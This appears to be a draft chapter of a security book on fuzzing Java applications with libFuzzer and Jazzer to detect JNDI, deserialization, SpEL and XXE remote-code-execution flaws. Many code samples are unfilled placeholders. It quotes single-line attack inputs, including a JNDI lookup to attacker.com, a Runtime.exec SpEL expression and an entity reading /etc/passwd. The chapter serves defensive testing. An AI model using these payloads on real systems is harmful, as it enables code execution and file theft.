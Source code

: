 == Chapter 2: Fix Input Processing Failures Through RCE Discovery [30 pages]

*Tool Requirements:* libFuzzer, Jazzer, OpenJDK, Maven/Gradle, Docker

*Learning Objectives:*

* Master libFuzzer workflow through concrete Java RCE vulnerability discovery
* Build detection harnesses for four major enterprise vulnerability classes
* Integrate comprehensive security monitoring with systematic input testing
* Understand libFuzzer as the foundation for language-specific fuzzing variants

*Vulnerability Classes Covered:*

* JNDI injection vulnerabilities in logging frameworks causing remote code execution
* JSON deserialization failures leading to arbitrary object instantiation and RCE
* Expression language injection enabling direct code execution through templates
* XML external entity processing allowing file system access and RCE escalation

=== libFuzzer Fundamentals: Process-Internal Security Testing

libFuzzer executes inside your application's process rather than forking new processes for each test case, eliminating startup overhead while enabling high-throughput security testing. You compile your target function with libFuzzer instrumentation, and it systematically calls that function with different inputs while tracking code coverage. When libFuzzer discovers inputs that crash your code or reach new execution paths, it automatically preserves them for further exploration.

This execution model proves particularly effective for discovering security vulnerabilities in string processing logic. Most enterprise RCE vulnerabilities occur during input parsing - JSON deserialization, XML processing, template evaluation, and log message interpolation. libFuzzer's ability to execute millions of test cases per second makes it practical to discover the complex input combinations that trigger these vulnerabilities.

The libFuzzer approach forms the conceptual foundation for Jazzer (Java), Atheris (Python), and Jazzer.js (JavaScript). Master these concepts through Java implementation, and you'll understand how to apply systematic vulnerability discovery across your entire technology stack.

==== When libFuzzer Excels at Security Testing

libFuzzer provides advantages over file-based fuzzing approaches when testing library functions that process structured input formats. Applications that parse JSON, XML, log messages, or template expressions benefit from libFuzzer's function-level testing approach because it focuses exploration on the specific parsing logic where vulnerabilities commonly occur.

String processing vulnerabilities often require specific input combinations to trigger reliably. A JNDI injection might need precise syntax within a logging message. A deserialization vulnerability might require specific JSON structure with particular type annotations. libFuzzer's coverage-guided exploration systematically discovers these combinations rather than relying on random generation.

Security-focused fuzzing requires high execution throughput because many vulnerabilities have low trigger probability. Finding a SpEL injection payload might require testing millions of template combinations. libFuzzer's persistent execution mode enables this systematic exploration without the performance overhead of process creation.

==== Coverage-Guided Security Discovery

libFuzzer tracks which code paths each input explores and prioritizes inputs that reach previously unexplored areas. This coverage feedback proves crucial for security testing because vulnerabilities often hide in error handling paths, edge case processing, or rarely-executed validation logic.

When fuzzing JSON deserialization, random JSON typically exercises only the primary parsing paths. Coverage-guided exploration systematically discovers the type annotation processing, error recovery mechanisms, and polymorphic object creation logic where deserialization vulnerabilities commonly occur.

[PLACEHOLDER:CODE libfuzzer_java_setup. Basic libFuzzer integration with Jazzer showing compilation, execution, and coverage tracking for Java security testing. Include harness structure and build configuration. Medium value.]

The systematic nature of coverage-guided exploration enables discovery of vulnerability combinations that manual testing rarely encounters. Security vulnerabilities often result from unexpected interactions between input validation, error handling, and business logic processing.

==== Building Your First Security Detection Harness

Before diving into specific vulnerability patterns, understanding the basic harness structure enables effective security testing across all vulnerability types. A security-focused libFuzzer harness differs from standard fuzzing harnesses because it must detect exploitation attempts rather than just crashes.

The fundamental security harness pattern includes input generation, target function invocation, and exploitation detection. Unlike functional testing harnesses that simply call target functions, security harnesses must monitor system interactions that indicate successful attacks.

[,java]
----
public class BasicSecurityHarness {
    @FuzzTest
    void detectSecurityViolations(FuzzedDataProvider data) {
        String input = data.consumeString(1000);

        try (SecurityMonitor monitor = new SecurityMonitor()) {
            // Call target function with fuzzer input
            targetFunction.processInput(input);

            // Check for security violations
            if (monitor.detectedViolation()) {
                throw new SecurityException("Attack detected");
            }
        } catch (ProcessingException e) {
            // Expected parsing errors are acceptable
        }
    }
}
----

Security monitoring must capture exploitation indicators without generating false positives from normal application behavior. This requires understanding baseline application activity and distinguishing legitimate operations from attack patterns.

Common monitoring patterns include network connection tracking, process creation detection, file system access monitoring, and JVM state inspection. Each vulnerability type requires appropriate monitoring combinations to detect successful exploitation reliably.

===== Common Harness Development Mistakes

Overly restrictive input validation in harnesses prevents discovery of edge cases where vulnerabilities commonly occur. Security harnesses should allow malformed input to reach target processing logic while monitoring for exploitation rather than rejecting suspicious input prematurely.

Insufficient state cleanup between fuzzing iterations causes false positives when previous test cases affect subsequent monitoring. Security harnesses must reset monitoring state completely between iterations to ensure detection accuracy.

Monitoring overhead that significantly reduces fuzzing throughput limits vulnerability discovery effectiveness. Security harnesses require balancing comprehensive monitoring against execution performance to maintain practical fuzzing rates.

===== Debugging Harness Effectiveness

When security harnesses fail to discover known vulnerabilities, systematic debugging identifies common problems. First, verify that fuzzer input reaches vulnerable code paths by adding logging or breakpoints in target functions.

Monitor system activity during manual exploitation attempts to confirm that monitoring systems detect attack indicators correctly. If manual attacks don't trigger monitoring alerts, the detection logic requires adjustment before fuzzing can succeed.

Examine fuzzing statistics to ensure adequate input diversity and coverage growth. Security vulnerabilities often require specific input combinations that systematic exploration must discover through sufficient iteration diversity.

=== Enterprise RCE Discovery: Four Critical Vulnerability Patterns

Enterprise Java applications face security threats from four primary RCE vulnerability patterns, each targeting different input processing mechanisms. Understanding these patterns enables systematic security testing that covers the attack vectors responsible for major security incidents in production environments.

These vulnerability classes share common characteristics that make them suitable for libFuzzer discovery: string-based input boundaries, complex parsing logic, and clear exploitation indicators. Building detection harnesses for each pattern demonstrates transferable security testing methodology while providing immediate protection against real threats.

==== JNDI Injection in Logging Frameworks

Logging frameworks that perform string interpolation create opportunities for JNDI injection when user-controlled input reaches log message processing. The vulnerability occurs when logging implementations interpret special syntax within log messages as instructions for external resource loading.

[PLACEHOLDER:CODE vulnerable_logging_component. Logging framework implementation with JNDI interpolation vulnerability similar to log4j patterns. Include string processing logic and external lookup mechanisms. High value.]

JNDI injection exploits string interpolation features intended for configuration flexibility. When logging frameworks encounter patterns like `${jndi:ldap://attacker.com/payload}` within log messages, they interpret this as an instruction to perform external lookups, potentially loading malicious code from attacker-controlled servers.

The attack surface includes any code path where external input reaches logging statements. Web application request processing, error handling, and audit logging commonly introduce user-controlled content into log messages without adequate sanitization.

===== Building JNDI Injection Detection Harnesses

Effective JNDI injection discovery requires harnesses that monitor for external network connections during log message processing. The harness provides fuzzer-generated input to logging functions while detecting unauthorized network activity that indicates successful injection.

[PLACEHOLDER:CODE jndi_injection_harness. Complete libFuzzer harness for discovering JNDI injection vulnerabilities including network monitoring, input generation, and detection logic. High value.]

Network monitoring during fuzzing enables immediate detection of JNDI lookup attempts. When the fuzzer generates input that triggers external DNS queries or LDAP connections, the monitoring system captures this as evidence of injection vulnerability.

Input generation for JNDI injection discovery benefits from understanding common injection patterns. While random string generation occasionally produces injection syntax, structured generation that incorporates known JNDI patterns increases discovery efficiency.

[PLACEHOLDER:CODE jndi_payload_generation. Structured input generation for JNDI injection discovery including common patterns, protocol variations, and evasion techniques. Medium value.]

==== JSON Deserialization Vulnerabilities

JSON deserialization vulnerabilities occur when parsing libraries automatically instantiate objects based on type information embedded within JSON input. This functionality, intended to support polymorphic object serialization, enables attackers to specify arbitrary classes for instantiation during parsing.

[PLACEHOLDER:CODE vulnerable_json_processor. JSON deserialization component with polymorphic type handling vulnerability patterns similar to Jackson default typing issues. Include object instantiation and type resolution logic. High value.]

The vulnerability mechanism relies on type annotation features that allow JSON to specify which Java class should be instantiated during parsing. When enabled, these features interpret JSON like `{"@class":"dangerous.Class","property":"value"}` as instructions to create instances of the specified class.

Exploitation typically involves identifying classes available in the application classpath that perform dangerous operations during construction or property setting. Common targets include classes that execute commands, make network connections, or access the file system during object initialization.

===== Deserialization RCE Detection Through Process Monitoring

Deserialization RCE detection requires monitoring for unexpected process creation or system calls during JSON parsing. Since exploitation typically involves executing operating system commands, process monitoring provides reliable detection of successful attacks.

[PLACEHOLDER:CODE jackson_rce_harness. libFuzzer harness for detecting JSON deserialization RCE including process monitoring, structured JSON generation, and gadget chain detection. High value.]

Process monitoring during deserialization fuzzing captures command execution attempts that indicate successful RCE exploitation. The monitoring system tracks process creation, file system access, and network connections that occur during JSON parsing but outside normal application behavior.

Structured JSON generation for deserialization testing requires understanding both valid JSON syntax and dangerous class patterns. The fuzzer must generate syntactically correct JSON while systematically exploring type annotations that might trigger object instantiation vulnerabilities.

==== Spring Expression Language Template Injection

SpEL injection vulnerabilities occur when applications evaluate user-controlled input as Spring Expression Language expressions. This commonly happens in template processing, dynamic query construction, and configuration parameter evaluation where user input reaches SpEL parsing logic.

[PLACEHOLDER:CODE vulnerable_spel_processor. Spring Expression Language processing component with template injection vulnerability including expression evaluation and context handling. High value.]

SpEL provides powerful expression evaluation capabilities including access to Java classes, method invocation, and system property manipulation. When user input is evaluated as SpEL expressions, attackers can leverage this functionality to execute arbitrary code through expressions like `#{T(Runtime).getRuntime().exec('commands')}`.

Template processing represents a common attack vector because applications often allow user customization of output formatting through template expressions. Without proper input validation, these templates become vehicles for code injection.

===== SpEL Injection Detection Through Execution Monitoring

SpEL injection detection requires comprehensive monitoring for code execution, file system access, and system property modifications during expression evaluation. Since SpEL provides broad access to JVM functionality, successful exploitation can manifest through various system interactions.

[PLACEHOLDER:CODE spel_injection_harness. libFuzzer harness for discovering SpEL injection vulnerabilities including execution monitoring, template generation, and expression evaluation detection. High value.]

Template generation for SpEL injection discovery benefits from understanding expression syntax and available functionality. The fuzzer should systematically explore method invocation patterns, class access mechanisms, and property manipulation expressions that could lead to code execution.

==== XML External Entity Processing Vulnerabilities

XXE vulnerabilities occur when XML parsers process external entity declarations within document input. This feature, intended to support document modularity and external resource inclusion, enables attackers to access local files or trigger network requests through malicious entity definitions.

[PLACEHOLDER:CODE vulnerable_xml_processor. XML document processing component with external entity vulnerability including entity resolution and document parsing logic. High value.]

XML external entity processing interprets document type definitions that reference external resources. When XML contains declarations like `<!ENTITY xxe SYSTEM "file:///etc/passwd">`, vulnerable parsers attempt to resolve these references, potentially exposing file system contents or enabling network-based attacks.

The attack surface includes any XML processing functionality that accepts external input, including document parsing, configuration loading, and data import operations. Many XML parsers enable external entity processing by default, creating widespread vulnerability potential.

===== XXE Detection Through File System Monitoring

XXE detection requires monitoring for unauthorized file system access and network connections during XML parsing. Since exploitation typically involves reading local files or making external requests, file system and network monitoring provide reliable attack detection.

[PLACEHOLDER:CODE xxe_detection_harness. libFuzzer harness for discovering XXE vulnerabilities including file system monitoring, XML generation, and entity resolution detection. High value.]

XML generation for XXE discovery requires understanding entity declaration syntax and common attack patterns. The fuzzer should systematically explore external entity references, parameter entities, and nested entity structures that might trigger vulnerability exploitation.

==== Troubleshooting Security Detection Failures

When security harnesses fail to discover vulnerabilities that manual testing confirms exist, systematic troubleshooting identifies and resolves common problems. Security fuzzing failures typically result from inadequate monitoring, insufficient input diversity, or harness implementation issues.

===== Diagnosing Monitoring Problems

Monitoring systems must detect the specific exploitation indicators that each vulnerability type produces. JNDI injection requires network monitoring for external lookups, while deserialization RCE needs process monitoring for command execution. Verify monitoring effectiveness by manually triggering known exploits and confirming detection.

Network monitoring failures often result from DNS caching, connection pooling, or asynchronous lookup mechanisms that occur outside the monitoring window. Extend monitoring duration and capture all network activity during fuzzing iterations to ensure detection coverage.

Process monitoring must distinguish between legitimate subprocess creation and exploitation attempts. Many Java applications spawn processes during normal operation, requiring filtering to identify unauthorized execution that indicates successful RCE.

===== Improving Input Generation Effectiveness

Random input generation rarely produces the structured syntax required for complex vulnerability exploitation. JNDI injection requires specific interpolation patterns, while XXE needs valid XML with malicious entity declarations. Structured generation dramatically improves discovery rates.

Input constraints that prevent malformed content from reaching vulnerable code paths reduce fuzzing effectiveness. Security harnesses should allow syntactically invalid input to exercise error handling paths where vulnerabilities commonly occur.

Coverage analysis reveals whether fuzzer input reaches vulnerable code sections. When coverage remains low in security-critical parsing logic, examine input validation that might prevent fuzzer-generated content from exercising target functionality.

===== Performance Optimization for Security Fuzzing

Security monitoring overhead can reduce fuzzing throughput below practical levels for vulnerability discovery. Monitor fuzzing statistics to ensure execution rates remain sufficient for systematic exploration of input spaces.

Excessive monitoring granularity creates performance bottlenecks without proportional security benefit. Focus monitoring on high-level exploitation indicators rather than detailed system call tracking to maintain fuzzing efficiency.

Persistent mode implementation requires careful resource cleanup to prevent monitoring interference between fuzzing iterations. Reset all monitoring state explicitly between test cases to maintain detection accuracy while preserving performance benefits.

==== Adapting Security Testing to Your Applications

The four vulnerability patterns demonstrate general methodology that applies to diverse application architectures and input processing scenarios. Successful adaptation requires understanding your application's specific input boundaries, processing mechanisms, and exploitation characteristics.

===== Identifying Security-Critical Input Boundaries

Application security testing begins with mapping input boundaries where external data reaches processing logic. Web applications typically have HTTP request parameters, headers, and body content as primary boundaries. Desktop applications might process configuration files, command-line arguments, or document imports.

Input boundary analysis focuses on data that external users control and that reaches parsing or evaluation logic. User profile data that gets stored and later processed represents an indirect input boundary that security testing should cover.

Consider data flow paths that transform input through multiple processing stages. XML configuration that gets parsed, validated, and then evaluated as expressions represents multiple potential vulnerability points requiring comprehensive testing.

===== Customizing Monitoring for Application Context

Each application requires monitoring strategies appropriate to its runtime environment and exploitation risks. Web applications might need HTTP response monitoring to detect injection attacks, while desktop applications require file system monitoring for unauthorized access attempts.

Cloud-native applications running in containers require monitoring strategies that account for container boundaries and orchestration platforms. Network monitoring must distinguish between legitimate service communication and exploitation attempts.

Database-driven applications need query monitoring to detect SQL injection alongside the standard process and network monitoring. ORM frameworks might require monitoring for unusual object instantiation patterns during deserialization attacks.

===== Scaling Detection Patterns to New Vulnerability Types

When encountering unfamiliar vulnerability types, apply the systematic approach demonstrated across the four patterns: understand the exploitation mechanism, identify detection indicators, implement appropriate monitoring, and generate inputs that explore the vulnerability space.

Buffer overflow vulnerabilities in native libraries require memory corruption detection rather than process monitoring. API rate limiting bypasses need request pattern analysis rather than system call monitoring. Each vulnerability type has characteristic exploitation indicators that enable systematic detection.

Template engines beyond SpEL follow similar injection patterns but with different syntax and evaluation contexts. The monitoring approach remains consistent while input generation adapts to specific template syntax and available functionality.

===== Integrating Security Testing with Development Workflows

Security testing integration depends on application development patterns and team preferences. Test-driven development teams can incorporate security harnesses alongside functional tests, running both during development cycles.

Continuous integration environments require balancing security testing comprehensiveness against build performance constraints. Short-running security tests can execute on every commit while comprehensive campaigns run during off-hours or release preparation.

Local development security testing provides immediate feedback during coding but requires careful resource management to avoid impacting development productivity. Lightweight monitoring and focused input generation enable practical security testing during active development.

=== Connecting the Four Vulnerability Patterns

Each vulnerability pattern demonstrates the same fundamental libFuzzer methodology applied to different input processing scenarios. JNDI injection, JSON deserialization, SpEL evaluation, and XXE processing all follow identical discovery approaches: identify input boundaries, build appropriate monitoring, generate structured inputs, and detect exploitation indicators.

This consistency enables systematic security testing across diverse application components. When you encounter new input processing logic, apply the same methodology: understand the parsing mechanism, identify potential exploitation paths, implement detection monitoring, and generate inputs that explore the vulnerability space systematically.

=== Chapter Summary: Systematic Security Vulnerability Discovery

You have built practical expertise in discovering enterprise Java RCE vulnerabilities through systematic libFuzzer testing. The four vulnerability patterns covered - JNDI injection, JSON deserialization, SpEL injection, and XXE processing - represent the primary attack vectors affecting production Java applications.

*Hands-On Security Testing Skills:*

The detection harnesses you've implemented provide immediate security value for Java development while demonstrating transferable methodology. The monitoring patterns for process creation, network access, and file system interaction apply across programming languages and vulnerability types.

Structured input generation techniques enable efficient discovery of complex vulnerability patterns that random testing rarely encounters. Understanding how to generate JNDI injection payloads, polymorphic JSON, SpEL expressions, and XXE entity declarations provides practical security testing capabilities.

*libFuzzer Mastery Through Concrete Application:*

You've learned libFuzzer fundamentals through hands-on vulnerability discovery rather than abstract concepts. This practical approach builds confidence in coverage-guided fuzzing while delivering immediately useful security testing skills.

The harness development patterns you've mastered - input boundary identification, appropriate monitoring, and structured generation - transfer directly to testing other vulnerability types and input processing scenarios.

*Foundation for Multi-Language Security Testing:*

The libFuzzer concepts and monitoring patterns transfer directly to Atheris for Python web applications, Jazzer.js for JavaScript services, and other language-specific fuzzing implementations. The security vulnerability patterns occur across programming languages with similar exploitation characteristics.

Understanding coverage-guided security testing through Java implementation prepares you for systematic vulnerability discovery across your entire technology stack. The same principles of input boundary identification, structured generation, and execution monitoring apply regardless of implementation language.

*Systematic Methodology for Novel Vulnerabilities:*

The detection framework you've built provides methodology for discovering vulnerability classes beyond the four patterns covered. When new attack techniques emerge, the same approach applies: identify input boundaries, understand exploitation indicators, implement appropriate monitoring, and generate structured inputs that explore the vulnerability space.

Security testing through libFuzzer transforms vulnerability discovery from reactive investigation to proactive verification. Instead of learning about security issues through incident response, you systematically verify that your input processing logic handles malicious input safely.

Your security testing expertise now includes both the technical implementation skills and the analytical methodology needed to discover critical vulnerabilities before they affect production systems. This proactive security verification capability provides protection against the attack patterns that have historically caused significant security incidents in Java applications.
